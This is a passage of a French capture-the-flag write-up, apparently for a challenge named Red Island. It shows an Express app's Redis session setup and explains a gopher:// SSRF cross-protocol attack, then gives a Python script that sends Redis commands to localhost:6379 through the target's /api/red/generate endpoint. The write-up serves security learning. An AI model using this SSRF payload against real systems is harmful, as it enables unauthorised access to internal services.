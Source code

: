 ```js
const express= require('express');
const app= express();
const session= require('express-session');
const RedisStore = require("connect-redis")(session)
const path = require('path');
const cookieParser = require('cookie-parser');
const nunjucks = require('nunjucks');
const routes = require('./routes');
const Database = require('./database');
const { createClient } = require("redis")
const redisClient= createClient({ legacyMode: true })

const db = new Database('/tmp/redisland.db');

app.use(express.json());
app.use(cookieParser());

redisClient.connect().catch(console.error)
<SNIP>
```

[Redis](https://redis.io/) ou **RE**mote **DI**ctionary **S**erver est un service populaire de mise en cache de données en mémoire, Souvent utilisé comme base de données.

Dans cette application, *Redis* est utilisé comme *stockage des sessions* avec `redisClient.connect()`. En l'absence d'options, j'ai supposé qu'il était connecté à l'adresse locale `localhost:6379`.

Je sais que *Redis* implémente [gopher](https://fr.wikipedia.org/wiki/Gopher), qui était une alternative au [World Wide Web](https://fr.wikipedia.org/wiki/World_Wide_Web) dans la fin des années 90.

Etant donné que *node-libcurl* supporte plusieurs protocoles pour la **SSRF**, et que *gopher* peut être utilisé pour communiquer avec le client *Redis*, j'ai effectué une attaque **Cross-Protocol Scripting** en utilisant le schéma `gopher://`.

![URI](/red_island/screenshots/uri_gopher.png)

Pour automatiser cette opération, j'ai écrit un script python:

```python
from urllib.parse import quote
import requests

URL = "http://<TARGET:HOST>/api/red/generate"
payload = quote("""
INFO

quit
""")
input = {"url":f"gopher://localhost:6379/_{payload}"}
headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0",
           "Content-Type": "application/json",
           "Cookie": "connect.sid=<SESSION_COOKIE>"}

request = requests.post(url=URL, json=input, headers=headers)
print(str(request.json()).replace("\\n", "\n").replace("\\r", ""))
```
